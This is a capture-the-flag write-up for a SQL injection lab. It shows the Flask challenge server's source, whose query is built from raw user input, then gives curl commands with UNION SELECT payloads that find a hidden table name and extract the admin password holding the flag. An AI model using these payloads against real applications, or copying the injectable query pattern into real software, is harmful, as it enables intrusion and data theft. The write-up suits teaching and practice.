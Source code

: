 # SQLi 4

```cat /challenge/server```

```
hacker@web-security~sqli-4:~$ cat /challenge/server
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import random
import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

random_user_table = f"users_{random.randrange(2**32, 2**33)}"
db.execute(f"""CREATE TABLE {random_user_table} AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
# https://www.sqlite.org/lang_insert.html
db.execute(f"""INSERT INTO {random_user_table} SELECT "guest" as username, "password" as password""")


@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:
        # https://www.sqlite.org/schematab.html
        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM {random_user_table} WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql.replace(random_user_table, "REDACTED") }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
hacker@web-security~sqli-4:~$
```

-------------------------------------------------------------

#### Since the name of the table needed to inject is unknown, first step is finding the table names and getting the right one.


```
curl -v "http://challenge.localhost:80/?query=%22UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type=%22table"
```

------------------------------------------------------

#### In the results just one table was returned, so this is obviously it.


```
<html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='"UNION SELECT name FROM sqlite_master WHERE type="table'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>SELECT username FROM REDACTED WHERE username LIKE ""UNION SELECT name FROM sqlite_master WHERE type="table"</pre><br>
        <b>Results:</b><pre>users_4728253993</pre>
        </body></html>
* shutting down connection #0
```

---------------------------------------------

#### Craft the UNION SELECT request with the table name:


```
curl -v "http://challenge.localhost:80/?query=%22UNION%20SELECT%20password%20FROM%20user
s_4728253993%20WHERE%20username=%22admin"
```
